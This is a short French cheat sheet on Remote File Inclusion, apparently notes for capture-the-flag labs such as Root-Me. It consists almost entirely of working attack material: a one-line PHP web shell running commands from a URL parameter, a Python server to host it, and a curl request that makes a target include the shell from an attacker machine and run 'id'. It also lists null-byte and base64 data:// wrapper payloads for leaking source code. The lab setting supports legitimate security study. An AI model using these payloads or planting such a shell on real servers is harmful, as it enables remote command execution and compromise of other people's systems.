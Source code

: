# RFI

## contenu du fichier:
<?php system($_GET['cmd']); ?>

## lancement serveur web:
python3 -m http.server 8080

## requete:
curl "http://10.129.29.114/index.php?language=http://10.10.14.225:8000/ws.php&cmd=id"




## exemple: (avec NULL à la fin)
http://challenge01.root-me.org/web-serveur/ch13/index.php?lang=http://challenge01.root-me.org/web-serveur/ch13/index.php%00
http://challenge01.root-me.org/web-serveur/ch13/index.php?lang=https://google.fr?
http://challenge01.root-me.org/web-serveur/ch13/index.php?lang=%3C?php%20exit(%27Acces%20non%20autorise%20blablablabla%20!%27);

## Code php dans wrapper:

http://challenge01.root-me.org/web-serveur/ch13/?lang=data://text/plain;base64,PD9waHANCiRob21lcGFnZSA9IGZpbGVfZ2V0X2NvbnRlbnRzKCdpbmRleC5waHAnKTsNCmVjaG8gJGhvbWVwYWdlOw0KPz4=


data://text/plain;base64,PD9waHANCiRob21lcGFnZSA9IGZpbGVfZ2V0X2NvbnRlbnRzKCdpbmRleC5waHAnKTsNCmVjaG8gJGhvbWVwYWdlOw0KPz4=

b64:
<?php
$homepage = file_get_contents('index.php');
echo $homepage;
?>

